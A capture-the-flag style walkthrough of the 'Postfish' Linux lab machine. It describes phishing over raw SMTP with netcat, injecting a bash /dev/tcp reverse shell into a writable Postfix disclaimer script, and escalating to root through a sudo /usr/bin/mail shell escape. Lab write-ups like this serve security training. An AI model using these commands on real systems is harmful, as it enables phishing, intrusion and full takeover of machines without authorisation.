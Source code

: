 # 🐟 Postfish (Linux)

## 🌐 Initial Foothold

After enumerating the services, port **25 (SMTP)** was used for phishing.

📬 Send a phishing email:
```bash
nc -nv 192.168.X.X 25
```
Then type manually:
```
HELO x
MAIL FROM: it@postfish.off
RCPT TO: brian.moore@postfish.off
DATA
Subject: pg
http://192.168.Y.Y/
.
```

On attacker's machine:
```bash
sudo nc -nlvp 80
```

This sends a phishing link and sets up a listener for the callback.

---

## 🚀 Privilege Escalation

### 🔍 Enumeration

Ran `linpeas.sh` and found:
- Writable file: `/etc/postfix/disclaimer`
- Running `pspy32s` showed that `/root/disclaimer.sh` is executed by root.

📌 That `disclaimer.sh` script executes as user `filter` **whenever any email is sent**.

### 🐚 Gaining Shell as `filter`

With SSH access as `brian`, added a reverse shell payload to `/etc/postfix/disclaimer`:
```bash
echo 'bash -i >& /dev/tcp/192.168.Y.Y/80 0>&1' >> /etc/postfix/disclaimer
```

Then triggered the payload by sending another email:
```bash
nc -nv 192.168.X.X 25
```
Repeat SMTP phishing mail steps above.

On the attacker's machine:
```bash
sudo nc -nlvp 80
```

🔥 Caught a shell as user `filter`.

---

### 🧑‍💻 Root Access

Checked sudo privileges:
```bash
sudo -l
```
Output:
```
(filter) /usr/bin/mail
```

Used [GTFOBins](https://gtfobins.github.io/gtfobins/mail/) method:
```bash
sudo /usr/bin/mail --exec='!sh' brian
```

🎉 Got a root shell!

---

## 📌 Summary

- 🐟 Used phishing via SMTP (port 25) to trigger custom mail scripts.
- 🔧 Writable disclaimer file allowed code injection.
- 📬 Email triggered reverse shell as `filter`.
- 🚪 `sudo /usr/bin/mail` led to root using GTFOBins.

